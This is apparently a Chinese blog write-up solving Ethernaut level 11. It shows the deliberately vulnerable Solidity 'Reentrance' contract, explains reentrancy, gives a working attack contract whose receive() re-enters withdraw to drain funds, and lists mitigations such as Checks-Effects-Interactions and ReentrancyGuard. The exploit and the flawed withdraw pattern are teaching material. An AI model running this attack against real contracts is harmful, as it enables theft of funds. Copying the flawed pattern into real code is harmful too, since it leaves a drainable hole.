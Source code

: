 ```yaml
---
title: Ethernaut 闯关笔记 第11关 Re-entrancy
date: 2023-12-13 18:59:32
tags:
---
```


# 原始代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
    using SafeMath for uint256;
    mapping(address => uint) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint balance) {
        return balances[_who];
    }

    function withdraw(uint _amount) public {
        if(balances[msg.sender] >= _amount) {
        (bool result,) = msg.sender.call{value:_amount}("");
        if(result) {
            _amount;
        }
        balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

# 攻击思路

很经典的重入攻击。

重入攻击的基本思路就是，合约向另一个合约发送代币时，如果触发了 `fallback` 函数，而 `fallback` 函数又可以在目标合约更新余额之前再次调用目标合约。

如果在 `fallback` 函数中再次调用目标合约，就有可能在余额更新之前再一次提取其中的资金。在以太坊的发展史上，这种攻击导致了灾难性后果，最终导致了一次硬分叉。

# 攻击代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

// import '@openzeppelin-contracts/math/SafeMath.sol';

contract Reentrance {
  
    // using SafeMath for uint256;
    mapping(address => uint) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to] + msg.value;
    }

    function balanceOf(address _who) public view returns (uint balance) {
        return balances[_who];
    }

    function withdraw(uint _amount) public {
        if(balances[msg.sender] >= _amount) {
        (bool result,) = msg.sender.call{value:_amount}("");
        if(result) {
            _amount;
        }
        balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}

contract Reentrancy{
    Reentrance target;

    function myfund() public payable {}

    function hack(address payable targetAddress) public {
        target = Reentrance(targetAddress);
        uint256 money = address(this).balance;
        target.donate{value: money}(address(this));
        target.withdraw(money);
    }

    receive() external payable {
        target.withdraw(0.001 ether);
    }
}
```

# 安全启示

1. 使用 Checks-Effects-Interactions 模式进行合约设计
2. 使用 `ReentrancyGuard` 防范重入攻击
3. 伊斯坦布尔硬分叉之后， `transfer` 和 `send` 不再推荐被使用
4. 永远都要假设，资金的接收地址可能是另一个合约，对方可能会运行 `fallback` 函数与合约再一次交互